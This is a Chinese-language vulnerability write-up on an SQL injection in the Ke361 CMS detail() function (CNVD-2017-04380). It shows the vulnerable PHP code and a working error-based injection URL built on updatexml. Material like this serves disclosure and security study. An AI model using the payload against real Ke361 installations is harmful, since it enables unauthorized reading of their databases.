



# Ke361 TopicController.class.php SQL注入漏洞 CNVD-2017-04380

## 漏洞描述

Ke361 TopicController.class.php 文件中 detai() 函数中存在 SQL注入漏洞

## 漏洞影响

<a-checkbox checked>Ke361</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://gitee.com/jcove/ke361</a-checkbox></br>

## 漏洞复现

CMS产品页面


存在漏洞的文件为 Application/Home/Controller/TopicController.class.php, 漏洞函数详情



```php
public function detail(){
         $id = I('id');
         $where['tid'] = $id;
         $TopicModel = new TopicModel();
         $topicInfo = $TopicModel->info($id);
        //  if(empty($topicInfo)){
        //      $this->error('您查看的专题不存在哦！');
        //  }
  			//  这里注释掉，默认不存在专题
         M('Topic')->where('id='.$id)->setInc('hits');
         $this->setSiteTitle($topicInfo['title']);
         $goods = $this->lists(D('Goods'),$where);
         foreach ($goods as $k=>$v){
             $goods[$k]['url'] = U('/goods/'.$v['id']);
         }
         $this->assign('goods',$goods);
         $this->assign('topic',$topicInfo);
         $this->display();
     }
```

这里接收参数 id，然后执行SQL语句,  通过报错注入可以获取数据库数据

```php
/index.php?s=/Topic/detail/id/1)%20%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```



